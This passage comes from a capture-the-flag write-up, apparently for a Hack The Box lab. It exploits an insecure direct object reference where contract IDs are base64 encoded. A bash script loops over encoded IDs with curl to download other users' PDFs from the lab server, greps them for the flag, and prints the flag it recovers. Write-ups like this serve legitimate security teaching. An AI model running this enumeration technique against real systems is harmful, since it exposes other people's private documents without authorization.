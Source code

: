 ```http


```


As seen, the `contract=` is base64 encoded, it decodes to `MQ==` which also decodes to `1`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217160101.png)

So, after understanding the behavior of the contract, we can create a bash script to enumerate and get the flag:

```bash
#!/bin/bash

url="http://94.237.59.190:52218/download.php?contract="
flag_found=false

cleanup() {
    if ! $flag_found; then
        rm -f contract_*.pdf 2>/dev/null
    fi
}

trap cleanup EXIT

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64 -w 0); do
        filename="contract_$i.pdf"
        
        # Download and save to file
        curl -s -o "$filename" "${url}${encodedid}"
        
        # Check for flag pattern in PDF
        if strings "$filename" | grep -aq "HTB{"; then
            flag=$(strings "$filename" | grep -aoP "HTB{.*?}" | head -1)
            echo -e "\033[1;32m[+] FLAG FOUND: $flag\033[0m"
            flag_found=true
            exit 0
        else
            rm -f "$filename"
        fi
    done
done

if ! $flag_found; then
    echo -e "\033[1;31m[-] No flag found in contracts 1-20\033[0m"
fi
```

We get this output:

```
./doc.sh

[+] FLAG FOUND: HTB{h45h1n6_1d5_w0n7_570p_m3}
```

Flag is:

```
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

